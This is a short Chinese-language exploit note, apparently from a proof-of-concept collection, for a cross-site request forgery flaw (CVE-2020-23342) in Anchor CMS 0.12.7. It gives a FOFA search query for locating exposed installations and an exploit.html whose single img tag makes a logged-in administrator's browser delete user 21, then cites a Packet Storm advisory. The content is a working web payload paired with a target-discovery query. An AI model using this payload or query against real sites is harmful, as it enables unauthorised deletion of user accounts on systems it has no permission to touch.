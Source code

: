 # Anchor CMS 0.12.7 跨站请求伪造（CVE-2020-23342）

FOFA:

```
"Anchor CMS" && body="themes/default/img/favicon.png"
```

**PoC：**

Anchor CMS使用Get方法进行敏感操作，可以使用exploit.html进行删除用户等操作。

**exploit.html：**

```html
<img src="http://target/anchor/index.php/admin/users/delete/21">
```

当管理员点击时删除ID为21的用户。

ref：

https://packetstormsecurity.com/files/161048/anchorcms0127-xsrf.txt
